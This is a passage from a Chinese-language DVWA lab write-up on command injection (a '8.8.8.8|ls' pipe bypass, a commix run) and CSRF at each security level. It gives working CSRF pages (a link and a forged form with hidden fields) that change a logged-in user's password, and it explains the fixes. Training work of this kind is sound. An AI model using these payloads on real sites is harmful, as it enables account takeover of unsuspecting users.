    - 功能：此函数返回字符串 `str` 去除首尾空白字符后的结果。如果不指定第二个参数，**trim()** 将去除这些字符：        

      - ​             " " (ASCII *32*        (*0x20*))，普通空格符。           
      - ​             "\t" (ASCII *9*        (*0x09*))，制表符。           
      - ​             "\n" (ASCII *10*        (*0x0A*))，换行符。           
      - ​             "\r" (ASCII *13*        (*0x0D*))，回车符。           
      - ​             "\0" (ASCII *0*        (*0x00*))，空字节符。           
      - ​              "\x0B" (ASCII *11*        (*0x0B*))，垂直制表符。           

  仔细查看变换的代码，之所以 `8.8.8.8|ls` 能够成功注入，因为替换规则`'| ' => ''`管道符后面多出一个空格...


- DVWA Security: Impossible

  之前的注入方法失效，查看源代码:

  ```php
  <?php
  
  if( isset( $_POST[ 'Submit' ]  ) ) {
      // Check Anti-CSRF token
  [+] checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
  
      // Get input
      $target = $_REQUEST[ 'ip' ];
  [+] $target = stripslashes( $target );
  
      // Split the IP into 4 octects
  [+] $octet = explode( ".", $target );
  
      // Check IF each octet is an integer
  [+] if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
          // If all 4 octets are int's put the IP back together.
  [+]     $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];
  
          // Determine OS and execute the ping command.
          if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
              // Windows
              $cmd = shell_exec( 'ping  ' . $target );
          }
          else {
              // *nix
              $cmd = shell_exec( 'ping  -c 4 ' . $target );
          }
  
          // Feedback for the end user
          echo "<pre>{$cmd}</pre>";
      }
      else {
          // Ops. Let the user name theres a mistake
  [+]     echo '<pre>ERROR: You have entered an invalid IP.</pre>';
      }
  }
  
  // Generate Anti-CSRF token
  [+]generateSessionToken();
  
  ?> 
  ```

  `checkToken` 、`stripslashes`和`generateSessionToken` 在之前的 Burst Force 中已经介绍过，这里主要介绍 `explode` 和 `is_numeric` 函数：

  - `explode` <=> [details](http://php.net/manual/zh/function.explode.php)

    - 版本: PHP 4, PHP 5, PHP 7

    - 原型

      ```
       explode ( string $delimiter , string $string [, int $limit ] ) : array
      ```

    - 返回值：此函数返回由字符串组成的数组，每个元素都是`string`的一个子串，它们被字符串`delimiter`作为边界点分割出来。

  - `is_numeric` <=> [details](http://www.php.net/manual/zh/function.is-numeric.php)

  - - 版本: PHP 4, PHP 5, PHP 7

    - 原型

      ```
       is_numeric ( mixed $var ) : bool
      ```

    - 返回值：如果 `var` 是数字和数字字符串则返回 **TRUE**，否则返回 **FALSE**。

  **代码逻辑**：使用 `.` 将用户输入拆分，判断用户输入是否是 4 个数字（没有限制范围）通过 `.` 符号拼接起来的，如果符合要求进行查询；否则不进行查询。

- 工具使用

  网上有一些博客说明可以直接使用 `commix` 自动注入。Kali 自带 `commix`，简单地体验一下：

  ```
  commix --help
  ```

  查看帮助文档，指令可能用到的参数:

  ```
  -u URL, --url=URL   Target URL.
  --headers=HEADERS   Extra headers (e.g. 'Accept-Language: fr\nETag: 123').
  -d DATA, --data=..  Data string to be sent through POST.
  --host=HOST         HTTP Host header.
  --referer=REFERER   HTTP Referer header.
  --user-agent=AGENT  HTTP User-Agent header.
  ```

  调节 `DVWA Security` 为 `High`，在终端中输入以下指令:

  ```bash
  commix -u http://localhost:8081/vulnerabilities/exec/ --headers='Cookie:PHPSESSID=gvd3q6mas5g3pj9adgrh2e9qn0; security=high' --data 'ip=127.0.0.1&Submit=Submit'
  ```

  速度特别慢（半个小时不到 10 %.....）注入成功之后会有一个类似 `cmd` 的交互窗口，可以在这个窗口中输入指令，指令的执行结果会回显到交互窗口中。


### III   CSRF

CSRF( Cross-Site Request Forgery ) 利用网站对于用户网页浏览器的信任，挟持用户当前已登陆的Web应用程序，去执行并非用户本意的操作。原理如图：
 

- DVWA Security: Low

  界面是一个修改密码的界面：

  

  BurpSuite 查看请求：

  

  查看源代码：

  ```php
  <?php
  
  if( isset( $_GET[ 'Change' ] ) ) {
      // Get input
      $pass_new  = $_GET[ 'password_new' ];
      $pass_conf = $_GET[ 'password_conf' ];
  
      // Do the passwords match?
      if( $pass_new == $pass_conf ) {
          // They do!
          $pass_new = mysql_real_escape_string( $pass_new );
          $pass_new = md5( $pass_new );
  
          // Update the database
          $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
          $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' );
  
          // Feedback for the user
          echo "<pre>Password Changed.</pre>";
      }
      else {
          // Issue with passwords matching
          echo "<pre>Passwords did not match.</pre>";
      }
  
      mysql_close();
  }
  
  ?> 
  ```

  代码逻辑非常简单，现在介绍一下如何使用 CSRF 修改用户密码。查阅资料，CSRF 一般用 get、post，这里的请求明显使用了get 方法:

  - get: 利用 `a href` 或者 `img` 标签等，诱导用户点击或者直接请求资源

    <1>  `a herf`

    创建一个 html 文件:

  ```
    emacs /var/www/html/get_csrf.html
  ```

    文件内容:

  ```html
    <a href = "http://127.0.0.1:8081/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change">Click here!</a>
  ```

    开启 Apache 服务:

  ```
    service apache2 start		
  ```

    访问网站`localhost/get_csrf.html`

    

    点击后结果如下:

    

    

    使用新的密码登陆，登陆成功。

    <2> 使用 `img src`

    修改 html 文件：

  ```html
    <a href = "http://127.0.0.1:8081/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change">Click here!</a>
     
  ```

    

    

    确实发送了请求，但是图片却被隐藏了(长、宽、边界都被设置为 0)。使用之前的密码登陆，登陆失败；使用修改后的密码登陆，登陆成功，这里就不再一一截图。

    <3> 使用`form`：伪造一个类似的登陆界面，只是修改了 `form` 表单的 `html` 代码：

  ```html
    <form action="http://127.0.0.1:8081/vulnerabilities/csrf/?"  method="GET">
    			New password:<br>
    			<input autocomplete="off" name="joke1" type="password">
    			<input type="hidden" name="password_new" value="hackOK"/><br>
    			Confirm new password:<br>
    			<input autocomplete="off" name="joke2" type="password"><br>
    			<input type="hidden" name="password_conf" value="hackOK"/>
    			<br>
    			<input value="Change" name="Change" type="submit">
    </form>
  ```

    

    使用用户的登陆密码无法登陆，使用攻击者的登陆密码成功登陆。

  - post

    新建一个 html 文件:

    ```
    emacs /var/www/html/post_csrf.html
    ```

    文件内容类似与上面的 get 中的`form` 表单，只不过将 get 请求改为 post 请求。

  - 其他方法: [owasp](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)) 上提到了使用 put，这里不再具体介绍。

- DVWA Security: Medium

  查看源代码：

  ```php
  <?php
  
  if( isset( $_GET[ 'Change' ] ) ) {
      // Checks to see where the request came from
  [+] if( eregi( $_SERVER[ 'SERVER_NAME' ], $_SERVER[ 'HTTP_REFERER' ] ) ) {
          // Get input
          $pass_new  = $_GET[ 'password_new' ];
          $pass_conf = $_GET[ 'password_conf' ];
  
          // Do the passwords match?
          if( $pass_new == $pass_conf ) {
              // They do!
              $pass_new = mysql_real_escape_string( $pass_new );
              $pass_new = md5( $pass_new );
  
              // Update the database
              $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
              $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' );
  
              // Feedback for the user
              echo "<pre>Password Changed.</pre>";
          }
          else {
              // Issue with passwords matching
              echo "<pre>Passwords did not match.</pre>";
          }
      }
      else {
          // Didn't come from a trusted source
  [+]     echo "<pre>That request didn't look correct.</pre>";
      }
  
      mysql_close();
  }
  
  ?> 
  ```

  对比代码，改进之处是增加了 `Reference` 字段的检验，检验请求是否来自主站点。使用函数 `eregi`:

  - `eregi` <=> [details](http://php.net/manual/zh/function.eregi.php)

    - 版本：PHP 4, PHP 5

    - 原型

      ```
       eregi ( string $pattern , string $string [, array &$regs ] ) : int
      ```

    - 功能：不区分大小写的正则表达式匹配。

  **i.e.** 只要在本站其他的网页进行 CSRF 即可绕过验证 `Reference` 字段限制；因此可以直接使用 XSS 配合 CSRF 达到攻击的目的。过程如下:

  

  重新登录发现原密码登录失败，新密码登录成功。


- DVWA Security: High

  查看源代码：

  ```php
  <?php
  
  if( isset( $_GET[ 'Change' ] ) ) {
      // Check Anti-CSRF token
  [+] checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
  
      // Get input
      $pass_new  = $_GET[ 'password_new' ];
      $pass_conf = $_GET[ 'password_conf' ];
  
      // Do the passwords match?
      if( $pass_new == $pass_conf ) {
          // They do!
          $pass_new = mysql_real_escape_string( $pass_new );
          $pass_new = md5( $pass_new );
  
          // Update the database
          $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
          $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' );
  
          // Feedback for the user
          echo "<pre>Password Changed.</pre>";
      }
      else {
          // Issue with passwords matching
          echo "<pre>Passwords did not match.</pre>";
      }
  
      mysql_close();
  }
  
  // Generate Anti-CSRF token
  [+]generateSessionToken();
  
  ?> 
  ```

  变化之处和 Burst Force 中一样，使用了随机生成的 `user_token`，之前 XSS(stored) 因无法获取 `user_token` 而攻击失败。


- DVWA Security: Impossible

  查看源代码:

  ```php
  ?php
  
  if( isset( $_GET[ 'Change' ] ) ) {
      // Check Anti-CSRF token
      checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
  
      // Get input
  [+] $pass_curr = $_GET[ 'password_current' ];
      $pass_new  = $_GET[ 'password_new' ];
      $pass_conf = $_GET[ 'password_conf' ];
  
      // Sanitise current password input
  [+] $pass_curr = stripslashes( $pass_curr );
  [+] $pass_curr = mysql_real_escape_string( $pass_curr );
  [+] $pass_curr = md5( $pass_curr );
  
      // Check that the current password is correct
  [+] $data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
  [+] $data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
  [+] $data->bindParam( ':password', $pass_curr, PDO::PARAM_STR );
  [+] $data->execute();
  
      // Do both new passwords match and does the current password match the user?
      if( ( $pass_new == $pass_conf ) && ( $data->rowCount() == 1 ) ) {
          // It does!
          $pass_new = stripslashes( $pass_new );
          $pass_new = mysql_real_escape_string( $pass_new );
          $pass_new = md5( $pass_new );
  
          // Update database with new password
          $data = $db->prepare( 'UPDATE users SET password = (:password) WHERE user = (:user);' );
          $data->bindParam( ':password', $pass_new, PDO::PARAM_STR );
          $data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
          $data->execute();
  
          // Feedback for the user
          echo "<pre>Password Changed.</pre>";
      }
      else {
          // Issue with passwords matching
  [+]     echo "<pre>Passwords did not match or current password incorrect.</pre>";
      }
  }
  
  // Generate Anti-CSRF token
  generateSessionToken();
  
  ?> 
  ```

  代码并没有特别大的变化，只是增加了 SQL 预编译处理 SQL 语句，同时更改密码时需要输入原密码，在攻击者不知道原密码的状态下，很难修改密码。


